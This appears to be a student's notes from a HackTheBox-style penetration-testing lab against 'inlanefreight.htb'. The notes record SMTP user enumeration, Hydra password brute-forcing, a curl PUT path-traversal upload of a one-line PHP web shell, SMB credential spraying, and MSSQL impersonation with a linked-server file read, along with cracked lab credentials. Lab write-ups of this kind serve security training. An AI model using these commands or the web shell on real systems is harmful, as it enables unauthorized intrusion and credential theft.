 # Lab - Easy
---
- `10.129.203.7`
- `smtp-user-enum -M RCPT -U final.txt  -D inlanefreight.htb -t 10.129.81.74`
	- `fiona@inlanefreight.htb`
	- ![[Pasted image 20250713070015.png]]

- `hydra -l fiona@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt -f 10.129.81.74 smtp -I -v`
	- `fiona@inlanefreight.htb`: `987654321`
	- ![[Pasted image 20250713071521.png]]

- Login with FTP to get hint:
	- ![[Pasted image 20250713083117.png]]
- Modify test.php using PUT method:
	- `curl -k -X PUT -H "Host: 10.129.81.70" --basic -u fiona:987654321 --path-as-is https://10.129.81.70/../../../../../../xampp/htdocs/test.php --data-binary '<?=`$_GET[0]`?>'`

- Access the flag:
	- ![[Pasted image 20250713083221.png]]

# Lab - Medium
---
- The second server is an **internal server** (within the `inlanefreight.htb` domain) that manages and **stores emails and files and serves as a backup** of some of the company's processes. 
- From internal conversations, we heard that this is **used relatively rarely** and, in most cases, has **only been used for testing** purposes so far.

- Nothing unusual came up from common ports except that we can do DNS zone transfer:
	- ![[Pasted image 20250714060950.png]]
- But this was not helpful either

- Scanned all the ports using rustscan and found port `30021` to be open with ftp:
	- `simon` user found
	- ![[Pasted image 20250714061034.png]]
- ![[Pasted image 20250714061113.png]]
- `hydra -l simon -P mynotes.txt  ftp://10.129.201.127:2121 -I`
	- ![[Pasted image 20250714061306.png]]
	- `simon`: `8Ns8j1b!23hs4921smHzwn`
	- ![[Pasted image 20250714061408.png]]

# Lab - Hard
---
- The third server is another **internal server used to manage files and working material, such as forms**. 
- In addition, **a database is used on the server,** the purpose of which we do not know.

![[Pasted image 20250714071119.png]]
- `smbclient //10.129.220.222/Home -U simon`
	- Use Null/Empty Password
![[Pasted image 20250714071621.png]]
- `netexec smb 10.129.220.222 -u fiona -p Fiona/creds.txt`
	- `fiona`:`48Ns72!bns74@S84NNNSl`
	- ![[Pasted image 20250714071721.png]]
- `impacket-mssqlclient fiona@10.129.220.222 -windows-auth`
	- ![[Pasted image 20250714071947.png]]
- `enum_impersonate`
	- ![[Pasted image 20250714074918.png]]
- `exec_as_user john`
	- We (as john) are still not `SYSADMIN` on this server
- `SELECT srvname, isremote FROM sysservers`
	- ![[Pasted image 20250714075010.png]]
- Read Administrator Flag:
	- `EXECUTE('SELECT * FROM OPENROWSET(BULK N''C:/Users/Administrator/Desktop/flag.txt'', SINGLE_CLOB) AS Contents') AT [LOCAL.TEST.LINKED.SRV]`
	- ![[Pasted image 20250714075048.png]]